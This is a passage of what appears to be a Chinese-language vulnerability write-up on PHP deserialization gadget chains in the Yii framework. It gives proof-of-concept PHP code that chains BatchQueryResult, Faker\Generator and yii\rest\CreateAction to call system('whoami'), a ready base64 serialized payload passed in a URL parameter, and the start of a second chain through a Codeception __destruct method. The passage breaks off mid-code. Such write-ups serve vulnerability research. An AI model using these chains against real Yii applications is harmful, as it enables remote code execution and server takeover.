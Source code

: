 ```
namespace yii\db{
    use Faker\Generator;
    class BatchQueryResult{
        private $_dataReader;
        public function __construct()
        {
            $this->_dataReader=new Generator;
        }
    }
}
namespace{
    echo base64_encode(serialize(new yii\db\BatchQueryResult));
}
```

访问一下

```
?r=test&test=TzoyMzoieWlpXGRiXEJhdGNoUXVlcnlSZXN1bHQiOjE6e3M6MzY6IgB5aWlcZGJcQmF0Y2hRdWVyeVJlc3VsdABfZGF0YVJlYWRlciI7TzoxNToiRmFrZXJcR2VuZXJhdG9yIjoxOntzOjEzOiIAKgBmb3JtYXR0ZXJzIjthOjE6e3M6NToiY2xvc2UiO2E6Mjp7aTowO086MjE6InlpaVxyZXN0XENyZWF0ZUFjdGlvbiI6Mjp7czoxMToiY2hlY2tBY2Nlc3MiO3M6Njoic3lzdGVtIjtzOjI6ImlkIjtzOjY6Indob2FtaSI7fWk6MTtzOjM6InJ1biI7fX19fQ== 
```

![image-20210803132407990](images/11.png) 

 

# 第二条链子

## 漏洞分析

还是从__destruct方法入手

找到一个可用的__destruct方法在RunProcess.php

yii/vendor/codeception/codeception/ext/RunBefore.php

![image-20210804092202727](images/12.png)

这里进入stopProcess()函数,这个函数里面会将`$this->processes`的值遍历给​`$process`,`$this->processes`的值是可控的,看到下面的`$process->isRunning()`,就和之前那一条链子是差不多的了,可用去找一个isRunning()函数,或者去寻找一个可用的call方法

我们就直接找到call方法就是了,还是第一条链子一样的,使用Generator.php的call方法后面就一模一样了

于是poc2.php如下

```
<?php
namespace yii\rest{
    class CreateAction{
        public $checkAccess;
        public $id;

        public function __construct(){
            $this->checkAccess = 'system';
            $this->id = 'whoami';
        }
    }
}

namespace Faker{
    use yii\rest\CreateAction;

    class Generator{
        protected $formatters;
```